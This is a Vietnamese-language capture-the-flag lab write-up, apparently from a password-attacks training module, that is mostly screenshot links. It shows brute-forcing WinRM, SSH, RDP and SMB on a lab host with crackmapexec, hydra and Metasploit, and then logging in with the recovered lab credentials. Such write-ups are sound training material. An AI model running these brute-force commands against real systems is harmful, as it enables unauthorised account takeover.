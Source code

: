 <h1>Password Attacks: Network Services</h1>

![image](https://github.com/user-attachments/assets/a4f0bbce-5a49-4c50-9124-ba0733458f1c)

![image](https://github.com/user-attachments/assets/162084ec-59a1-4703-a8af-d94da14fad11)

![image](https://github.com/user-attachments/assets/260a06c9-3de9-49a8-a01c-e26be94cdfa8)

Chạy `crackmapexec winrm 10.129.167.69 -u username.list -p password.list` lấy user:pass từ 2 file và tấn công vét cạn:

![image](https://github.com/user-attachments/assets/f40f909e-5bec-42b9-9db6-ec5d4f217948)

Tôi có được john:november và chạy `evil-winrm -i 10.129.167.69 -u john -p november` để vào và tìm thấy flag trong Desktop

![image](https://github.com/user-attachments/assets/145f0f98-cc82-4842-9238-4a04e13fb867)

Dùng `hydra -L username.list -P password.list ssh://10.129.167.69` để tấn công vét cạn ssh:

![image](https://github.com/user-attachments/assets/d01dc777-4cf6-44e4-813c-ab22b405ea83)

Tôi có được dennis:rockstar, ssh vào và tìm thấy flag trong Desktop:

![image](https://github.com/user-attachments/assets/56fa5227-3033-4002-8c6c-c9d5a1db04cc)


Do tôi thấy có các user ở đây nên nghĩ chắc là 2 câu dưới cũng chỉ lanh quanh user này thôi nên tạo hẳn user.list để chứa mấy cái user này cho đẩy nhanh thời gian làm bài:

![image](https://github.com/user-attachments/assets/6f9a261b-a5a0-46ef-9b71-64b88c8980cf)

![image](https://github.com/user-attachments/assets/7791c747-33e3-4773-bb78-c97ff7df3c71)

![image](https://github.com/user-attachments/assets/e37b4403-0b97-4095-97b8-0019950f4561)

Chạy `hydra -L username.list -P password.list rdp://10.129.167.69` để vét cạn dịch vụ rdp:

![image](https://github.com/user-attachments/assets/a114d8b8-39a9-4f76-830e-c2d386483e6e)

Do lâu quá nên tôi tiện thể làm luôn smb `hydra -L user.list -P password.list smb://10.129.167.69`:

![image](https://github.com/user-attachments/assets/30442210-f5b2-4653-91fa-60f50fb122bb)

Cơ mà nó bị invalid và tra google thì ra như này [here](https://bugs.kali.org/view.php?id=6709):

![image](https://github.com/user-attachments/assets/ec4ebe92-1c3a-452a-9e1d-a5a5824d4b27)

Vậy nên tôi sử dụng msfconsole

![image](https://github.com/user-attachments/assets/522162d8-0f80-4aa1-8a1a-622123d2d8c3)

![image](https://github.com/user-attachments/assets/8bf8b30b-ca0e-4c16-b74a-2303c4883de3)

Có đến hẳn 2 cái luôn cassie:12345678910 và chris:789456123, thử với cassie:12345678910 thì ra flag:

![image](https://github.com/user-attachments/assets/ea6f50d0-7a32-4e1e-94ee-873caab957b9)

Với chris:789456123 thì vẫn như cái kia:

![image](https://github.com/user-attachments/assets/babb705d-4c63-4f46-9eb4-2b374083f66c)

Trong lúc đợi rdp thì tôi thử chris:789456123 vào rdp bằng `xfreerdp /u:'chris' /p:'789456123' /v:10.129.167.69` và ngạc nhiên chưa, nó hoạt động:

![image](https://github.com/user-attachments/assets/01670950-2b50-4f40-b864-4cd138de5e0e)

Không biết tại sao nhưng mà cái hydra nó không dính, hmm chắc kệ thôi:

![image](https://github.com/user-attachments/assets/2e0a6f6a-2037-47fa-8b62-ba0df1e42007)

